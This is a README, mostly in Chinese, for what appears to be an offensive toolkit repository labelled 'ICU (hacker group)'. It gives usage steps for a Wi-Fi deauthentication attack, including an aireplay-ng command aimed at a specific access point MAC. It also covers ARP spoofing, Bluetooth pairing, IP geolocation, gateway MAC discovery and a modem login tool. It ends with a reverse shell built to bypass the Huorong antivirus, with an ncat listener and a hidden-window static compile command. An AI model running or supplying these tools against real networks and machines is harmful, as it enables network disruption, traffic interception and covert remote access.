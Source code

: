 # ICU(hacker group)
## deauth attack
用法
<code>bash 0.sh</code><br>
请在0.sh中自行添加<code>sleep</code><br>
并修改0.c中<code>main</code>函数里的信道<code>b</code><br>
3.py中的<code>addr2</code>和<code>addr3</code><br>
该项目相当于执行<br>
<code>aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0</code><br>
如果要注释 那么请<code>cat 0.txt</code><br>
## 2.py
用法 <code>python3 2.py <IP地址></code><br>
请到<code>maxmind</code>下载<code>GeoLite2-City.mmdb</code>后运行
## metadata of movie or picture
用法 <code>python3 1.py</code><br>
步骤
<code>start ms-settings:privacy-location</code><br>
turn on location services let app camera access your location<br>
then <code>start microsoft.windows.camera:</code><br>
## gateway mac address
用法<br>
<code>pwsh</code><br>
<code>.\0.ps1</code><br>
<code>python3 0.py</code>
请将0.py中的<code>src</code>修改为<code>.\0.ps1</code>的输出<br>
## bluetooth pair
用法<br>
<code>python3 4.py</code><br>
## arp spoof
用法<br> 
<code>python3 9.py</code><br>
<code>python3 10.py</code><br>
修改10.py中的wlp3s0(网卡)<br>
local ethernet address && gateway ipv4 address<br>
## login optical modem
用法<br>
<code>gcc ./2.c -o 2</code><br>
<code>./2</code><br>
## bypass huorong reverse shell(small version)
用法<br>
<code>ncat -lvp 19482</code><br>
<code>g++ 0.cpp -o 00 -lws2_32 -s -O2 -static -static-libgcc -static-libstdc++ -mwindows</code>
需要修改0.cpp中的RyzU1
##### 2024年12月原创于中华人民共和国浙江省宁波市
